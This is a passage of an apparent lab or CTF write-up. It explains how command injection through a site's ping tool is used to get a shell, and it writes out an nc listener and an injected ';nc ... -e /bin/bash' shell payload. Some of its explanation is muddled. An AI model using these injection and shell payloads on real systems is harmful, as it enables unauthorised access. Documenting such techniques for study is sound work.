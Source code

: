 When we run this command we can see that we have python3 enable. And a lot of
google there is a might be a exploit that we can use and its called,
`Copy from program cmd exec` exploit. But this exploit needs `metasploit`

Now we can move on to the exploit phase of the attack.
[Exploit Phase](#exploitation-phase)

> Note: that the create lang was not talk about in the manual way.
> As its hard to find without automated tools.

## Exploitation Phase

### HTTP 666

Now that we know that the ping tool on the site can be a command injection
point. now we we can see. what can we do. when we run `whoami` we get www-data
user. We should note that on linux systems www-data normally is not a admin user
or sudo user. After a while putting `;`, `||`, `|`, `&&`, `&` to do our command
injection. We should get a reverse shell. 

#### Getting any shell

When we try any basic shell the shell will just get closed by the server. 
So we need a shell that won't get closed by the server. We can use the `mkfifo`
shell, The *ONE* down side of it is that it will keep the web server busy with
that `mkfifo` shell. Basically it will DOS the server for anyone else trying to
connect to the server. And if you mess up the `IP` or `PORT` you will lock your
self out of the machine.

#### Reverse shell or Bind shell

There are two methods for getting a connection that we can interact with. 

**Reverse Shell**: Communication initiated by the compromised system to the
attacker's system.

To do a reverse shell we need to open our listeners first before putting our 
reverse shell in. 

```bash
nc -lnvp <PORT>
```

- `-l`: This switch tells nc to operate in listening mode, which means it will
  listen for incoming connections rather than initiating connections.
- `-n`: This switch tells nc not to perform DNS resolution on any incoming
  addresses. This can speed up the operation, especially when dealing with IP addresses instead of domain names.
- `-v`: This switch enables verbose mode, which provides more detailed output,
  including information about incoming connections and data transfer.
- `-p` port: This switch specifies the port number on which nc should listen
  for incoming connections.

This is the shell that we will be using.
 
```bash
;nc -l <IP> <PORT> -e /bin/bash
```
